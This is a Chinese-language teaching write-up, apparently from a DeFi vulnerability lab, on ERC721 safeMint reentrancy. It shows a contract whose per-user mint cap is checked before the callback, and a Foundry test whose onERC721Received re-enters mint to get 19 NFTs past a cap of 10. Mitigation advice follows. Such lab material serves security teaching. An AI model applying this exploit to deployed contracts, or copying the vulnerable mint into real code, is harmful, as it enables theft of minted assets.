 # 不受保护的回调——ERC721 SafeMint可重入  
[Unprotected-callback.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Unprotected-callback.sol)  
**名称：** 不受保护的回调——ERC721 SafeMint可重入漏洞  
**描述：**  
合约 ContractTest 正在利用回调功能绕过MaxMint721合约设置的最大铸币限制。这是通过触发onERC721Received函数来实现的，在函数内部再次调用Mint函数。因此，尽管MaxMint721试图限制用户可以铸造的代币数量MAX_PER_USER，但ContractTest合约成功铸造的代币数量超过了此限制。  


**场景：**  
这个练习是一个通过回调函数铸造更多的NFT合约。  

**缓解意见：**  
遵循“检查-效果-交互”编码范式并使用OpenZeppelin重入防护。  
**参考：**  
https://blocksecteam.medium.com/when-safemint-becomes-unsafe-lessons-from-the-hypebears-security-incident-2965209bda2a  
https://www.paradigm.xyz/2021/08/the-dangers-of-surprising-code  


**MaxMint721合约：**  
```
contract MaxMint721 is ERC721Enumerable {
    uint256 public MAX_PER_USER = 10;

    constructor() ERC721("ERC721", "ERC721") {}

    function mint(uint256 amount) external {
        require(
            balanceOf(msg.sender) + amount <= MAX_PER_USER,
            "exceed max per user"
        );
        for (uint256 i = 0; i < amount; i++) {
            uint256 mintIndex = totalSupply();
            _safeMint(msg.sender, mintIndex);
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Unprotected-callback.sol** -vvvv
```
// 测试新代币铸造的公共函数
function testSafeMint() public {
    // 创建 MaxMint721 合约的新实例
    MaxMint721Contract = new MaxMint721();
        
    // 尝试铸造最大数量的新代币。 
    // 如果 mint 函数以标准方式实现，这应该铸造最大数量的新代币。
    MaxMint721Contract.mint(maxMints);
        
    // 控制台日志表明发生了一个漏洞，允许铸造19个 NFT
    console.log("Bypassed maxMints, we got 19 NFTs");
        
    // 该代码判断确实已经铸造了19个NFT。
    assertEq(MaxMint721Contract.balanceOf(address(this)), 19);
        
    // 输出此合约铸造的NFT数量
    console.log("NFT minted:", MaxMint721Contract.balanceOf(address(this)));
}

// 此函数是ERC721Receiver接口的标准实现，允许该合约从其他合约接收ERC721代币。
// 在这种情况下，它用于执行铸币漏洞
function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
) public returns (bytes4) {
        
    // 检查这是否是第一次调用函数
    if (!complete) {
        // 将函数标记为调用
        complete = true;
            
        // 新代币数量为Mints (maxMints - 1)  
        MaxMint721Contract.mint(maxMints - 1);
            
        // 输出请求铸造的代币数量
        console.log("Called with :", maxMints - 1);
    }
        
    // 这是成功接收ERC721代币的标准返回值
    return this.onERC721Received.selector;
}
```  
**红框：**成功绕过maxMint限制   
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F86e9ee9c-86cb-4ef2-9c5a-cf8774cacda8%2FUntitled.png?table=block&id=a2eb9107-aa44-4bc6-a6b6-0c1a0f284393&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
